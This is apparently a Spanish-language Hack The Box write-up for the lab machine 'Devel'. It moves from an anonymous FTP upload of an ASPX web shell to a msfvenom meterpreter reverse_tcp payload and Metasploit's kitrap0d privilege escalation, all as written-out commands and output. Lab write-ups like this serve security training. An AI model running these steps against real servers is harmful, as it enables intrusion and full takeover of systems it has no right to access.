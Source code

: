 # Devel ![Avatar](https://www.hackthebox.eu/storage/avatars/0fb6455a29eb4f2682f04a780ce26cb1_thumb.png)     

## Initial Scan

```nmap
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
```
## Enumeration

### FTP

Empecemos enumerando el FTP
```bash
pj@crow-foot:~$ ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:pj): Anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> ls -la
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
ftp> cd aspnet_client
250 CWD command successful.
ftp> ls -la
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          system_web
226 Transfer complete.
ftp> cd system_web
250 CWD command successful.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          2_0_50727
226 Transfer complete.
ftp> cd 2_0_50727
250 CWD command successful.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
```
Vemos que lo que tenemos es el directorio de la pagina que hay en el puerto 80, puede que podamos subir una shell

## Exploit

Usaremos una shell aspx por que es un cliente aspnet
```
https://github.com/danielmiessler/SecLists/blob/master/Web-Shells/laudanum-0.8/aspx/shell.aspx
```
La descargamos y la subimos al FTP
```ftp
put shell.aspx
```
Y accedmos a http://10.10.10.5/shell.aspx

## Privesc

Ya tenemos shell en la máquina

### Enumeración de Usuarios

```
 Directory of C:\Users

18/03/2017  02:16 §£    <DIR>          .
18/03/2017  02:16 §£    <DIR>          ..
18/03/2017  02:16 §£    <DIR>          Administrator
17/03/2017  05:17 ££    <DIR>          babis
18/03/2017  02:06 §£    <DIR>          Classic .NET AppPool
14/07/2009  10:20 §£    <DIR>          Public
```
No tenemos acceso a ninguno pero sabemos que los usuarios con flag son babis y Administrator ya que el actual no tiene acceso a ninguna flag

### Versiones y hotfixes

Ejecutamos el comando systeminfo aún desde la webshell
```
Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          babis
Registered Organization:   
Product ID:                55041-051-0948536-86302
Original Install Date:     17/3/2017, 4:17:31 ££
System Boot Time:          1/8/2020, 1:44:56 ££
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     1.023 MB
Available Physical Memory: 652 MB
Virtual Memory: Max Size:  2.047 MB
Virtual Memory: Available: 1.503 MB
Virtual Memory: In Use:    544 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.5
```
De aquí sacamos que tenemos un windows 7 de 32 bits y sin parchear

### Convirtiendo la web shell en reverse shell
Generamos una Rev Shell con msfvenom
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=4444 -f aspx  > shell.aspx
```
Subimos la revshell al FTP y nos conectamos a ella aprovechando que la hemos generado con msfvenom vamos a usar el exploit sugester de metasploit para poder encontrar una manera de elevar privilegios en la máquina
```
[+] 10.10.10.5 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms15_004_tswbproxy: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
```
Voy a hacer una excepción y lo voy a explotar con Metasploit haciendo uso de este modulo
```
exploit/windows/local/ms10_015_kitrap0d
```
Y con eso ya podriamos leer las dos flags

https://www.hackthebox.eu/storage/avatars/f412784c311bdf52c3655381d2c9cd21_thumb.png
